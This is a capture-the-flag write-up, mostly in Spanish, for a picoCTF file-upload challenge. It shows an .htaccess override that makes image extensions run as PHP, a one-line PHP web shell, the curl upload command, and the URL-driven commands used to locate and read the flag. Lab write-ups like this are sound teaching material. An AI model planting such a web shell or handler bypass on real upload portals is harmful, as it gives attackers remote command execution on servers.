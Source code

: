 ## Descripción
A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't.

Additional details will be available after launching your challenge instance.
## Solución
El reto nos da una pagina para subir imagenes, solo con un formato en especifico, creamos un archivo .htaccess con l contenido:

<FilesMatch "\.(gif|jpe?g|png|svg|php)$"> SetHandler application/x-httpd-php </FilesMatch>

Para poder subir archivos y reconozca php
Después por medio de curl subimos la imagen jpg_con_php.jpg con el contenido:
<?php if(isset($_GET['cmd'])){ system($_GET['cmd']); } ?>

Y lo subimos por medio de curl:
curl -i -X POST "http://amiable-citadel.picoctf.net:60628/upload.php" \ -F "image=@jpg_con_php.jpg;type=image/jpeg" -m 12

Ahora podemos ejecutar comandos en la url, así que buscamos la ruta de la bandera:
http://amiable-citadel.picoctf.net:49600/images/polyglot.gif?cmd=find%20/%20-maxdepth%203%20-type%20f%20-name%20%22*flag*%22%20-print%202%3E/dev/null

Y nos regresa:
GIF89a��,D;/proc/kpageflags /usr/bin/dpkg-buildflags /var/www/flag.txt

Vemos el archivo:
curl -s "http://amiable-citadel.picoctf.net:49600/images/polyglot.gif?cmd=cat%20%2Fvar%2Fwww%2Fflag.txt"

Y nos regresa la bandera:
GIF89a��,D;picoCTF{s3rv3r_byp4ss_9e7008ba}
## Notas
## Referencias